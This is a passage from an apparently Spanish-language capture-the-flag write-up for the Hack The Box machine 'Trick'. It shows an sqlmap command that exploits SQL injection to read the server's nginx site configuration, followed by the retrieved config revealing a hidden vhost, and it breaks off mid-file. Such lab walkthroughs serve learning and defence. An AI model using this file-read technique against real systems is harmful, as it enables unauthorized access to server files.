 ```powershell
#	server {
#		listen     localhost:110;
#		protocol   pop3;
#		proxy      on;
#	}
#
#	server {
#		listen     localhost:143;
#		protocol   imap;
#		proxy      on;
#	}
#}
```

escaneamos este archivo <i>include /etc/nginx/sites-enabled/default;</i> que es el enlace simbólico predeterminado del host en el servidor Web

```powershell
root@loe# sqlmap -r trick_burp_nginx_FILE.req --batch --dbms mysql --threads 10 --file-read=/etc/nginx/sites-enabled/default
...
root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default
server {
listen 80 default_server;
listen [::]:80 default_server;
server_name trick.htb;
root /var/www/html;

index index.html index.htm index.nginx-debian.html;

server_name _;

location / {
try_files $uri $uri/ =404;
}

location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/php7.3-fpm.sock;
}
}


server {
listen 80;
listen [::]:80;

server_name preprod-marketing.trick.htb;

root /var/www/market;
index index.php;

location / {
try_files $uri $uri/ =404;
}

location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
}
}

server {
```